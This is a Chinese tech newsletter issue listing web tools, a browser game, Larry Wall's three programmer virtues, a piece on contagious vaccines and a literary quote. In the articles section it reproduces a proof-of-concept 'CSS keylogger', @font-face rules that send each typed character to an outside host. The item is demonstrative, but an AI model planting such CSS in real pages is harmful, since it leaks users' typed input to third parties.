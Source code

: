 # InLoop周刊（第 6 期）：懒惰，急躁与傲慢

Tags: 周刊
创建时间: April 26, 2022 10:28 AM
周刊: No
归档: No

# 一言

没有准时这回事，你要么迟到，要么早到

# 娱乐

1. [loldodgegame](https://loldodgegame.com/)
   
    网页在线练习 英雄联盟LOL 走位、补刀、走A、insec 回旋踢
    
    ![Untitled](image/Untitled.png)
    
    下面请欣赏小编 `QQ眼WRF` 龟速回旋踢连招：
    
    ![run2.gif](image/run2.gif)
    

# 工具

1. [Oldest Search](https://www.oldestsearch.com/)
   
    一个古怪的搜索入口，它从 Google 搜索中调用时间正序的搜索结果，优先显示最久远的内容。这样搜索相关性就会差很多..... 但冲浪时就需要这种新奇的东西来调剂口味，不是吗 :)
    
2. [Coverview](https://links.bestxtools.com/coverview.vercel.app/)
   
    在线制作文件封面图
    
3. [checkbox_painter](https://mrdoob.com/lab/javascript/checkbox_painter/)
   
    使用 checkbox 作画的工具
    
4. [fuun](https://fuun.fun/)
   
    奇趣网址收藏家
    
5. [Relingo](https://relingo.net/zh/index)
   
    感兴趣的才是最容易记住的，看懂网站内容的同时渐进地学习记忆单词
    

# 文章

1. [CSS 键盘记录器](https://scotthelme.co.uk/can-you-get-pwned-with-css/)
   
    ```html
    <html>
      <style>
        @font-face { font-family: x; src: url(https://httpbin.org/get?value=a), local(Impact); unicode-range: U+61; }
        @font-face { font-family: x; src: url(https://httpbin.org/get?value=b), local(Impact); unicode-range: U+62; }
        @font-face { font-family: x; src: url(https://httpbin.org/get?value=c), local(Impact); unicode-range: U+63; }
        @font-face { font-family: x; src: url(https://httpbin.org/get?value=d), local(Impact); unicode-range: U+64; }
        input { font-family: x, 'Comic sans ms'; }
      </style>
      <input type=text>
    </html>
    ```
    
    如你所见，在输入框中键入字符 a，b，c 或 d 后，我们会收到相应的网络请求以泄露该字符。
    
    ![run.gif](image/run.gif)
    

# 文摘

1. 懒惰、急躁和傲慢
   
    Perl 语言的发明人 Larry Wall 说，好的程序员有 3 种美德：懒惰、急躁和傲慢「Laziness、Impatience and hubris」
    
    - 懒惰：是这样一种品质，它使得你花大力气去避免消耗过多的精力。它督促你写出节省体力的程序，同时别人也能利用它们。为此你会写出完善的文档，以免别人问你太多问题。
    
    - 急躁：是这样一种愤怒，当你发现计算机懒洋洋地不给出结果。于是你写出更优秀的代码，能尽快解决问题。至少看上去是这样的。
    
    - 傲慢：极度的自信，使你有信心写出（或维护）别人挑不出毛病的程序。
    
2. [传染性疫苗](https://www.iflscience.com/health-and-medicine/scientists-are-working-on-contagious-vaccines/)
   
    病毒具有传染性，疫苗为什么不可以呢？美国爱达荷大学的一个团队正在研究传染性疫苗，这种疫苗可以传染给其他人，让被传染者获得免疫力。
    
    该方法虽然可以快速达到群体免疫，但是有一定的风险，因为这种疫苗必然含有弱化病毒，存在病毒变异和激活的可能。如果能够保证安全性，它将很有前途。
    
    同时该项目还存在一些争议：在不知情的情况下，为每个人提供一刀切的治疗，是否侵犯个人意愿？
    
1. 当你老了，回顾一生，就会发觉：什么时候出国读书，什么时候决定做第一份职业、何时选定了对象而恋爱、什么时候结婚，其实都是命运的巨变。只是当时站在三岔路口，眼见风云千樯，你作出选择的那一日，在日记上，相当沉闷和平凡，当时还以为是生命中普通的一天。 
   
    —— 陶杰《杀鹌鹑的少女》
    
    ![Untitled](image/Untitled%201.png)
